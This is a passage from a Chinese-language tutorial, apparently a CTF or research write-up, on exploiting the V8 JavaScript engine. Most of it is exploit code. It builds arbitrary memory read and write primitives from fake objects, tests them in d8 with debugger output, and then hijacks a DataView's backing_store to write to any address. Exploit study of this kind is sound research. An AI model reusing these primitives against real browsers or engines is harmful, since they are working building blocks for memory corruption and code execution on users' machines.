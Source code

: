 ```js
    //console.log("[*] leak from: 0x" +hex(addr) + ": 0x" + hex(leak_data));
    return leak_data;
}

function write64(addr,data)
{
    fake_array[2] = i2f(addr - 0x10n + 0x1n);
    fake_object[0] = i2f(data);
    //console.log("[*] write to : 0x" +hex(addr) + ": 0x" + hex(data));
}
```

测试代码可以发现已经能任意读写。

```js
var a = [1.1,2.2,3.3];
%DebugPrint(a);
var a_addr = addressOf(a);
console.log("[*] addressOf a: 0x" + hex(a_addr));

read64(a_addr);
%SystemBreak();

write64(a_addr,0x01020304n);
%SystemBreak();
```

看到已经成功写入了数据

```bash
0x238dc518f799 <JSArray[3]>
[*] addressOf a: 0x0000238dc518f798

Thread 1 "d8" received signal SIGTRAP, Trace/breakpoint trap.
gdb-peda$ telescope 0x238dc518f798
0000| 0x238dc518f798 --> 0x1020304 
0008| 0x238dc518f7a0 --> 0x3840a5e40c71 --> 0x3840a5e408 
0016| 0x238dc518f7a8 --> 0x238dc518f771 --> 0x3840a5e414 
0024| 0x238dc518f7b0 --> 0x300000000 
0032| 0x238dc518f7b8 --> 0x3840a5e40561 --> 0x200003840a5e401 
0040| 0x238dc518f7c0 --> 0x238dc518f799 --> 0x7100000000010203 
0048| 0x238dc518f7c8 --> 0x3840a5e413b9 --> 0x3840a5e401 
0056| 0x238dc518f7d0 --> 0x2 
```

这里的任意地址写在写高地址的时候会出现问题，地址的低位会被修改出现异常，这里有另一个方式解决这个问题。  
DataView对象中的backing_store会指向申请的data_buf，修改backing_store为我们想要写的地址，用DataView对象的setBigUint64方法就可以往指定地址写数据了。

```js
var data_buf = new ArrayBuffer(8);
var data_view = new DataView(data_buf);
var buf_backing_store_addr = addressOf(data_buf) + 0x20n;

function writeDataview(addr,data){
    write64(buf_backing_store_addr,addr);
    data_view.setBigUint64(0,data,true);
    console.log("[*] write to : 0x" +hex(addr) + ": 0x" + hex(data));
}
```
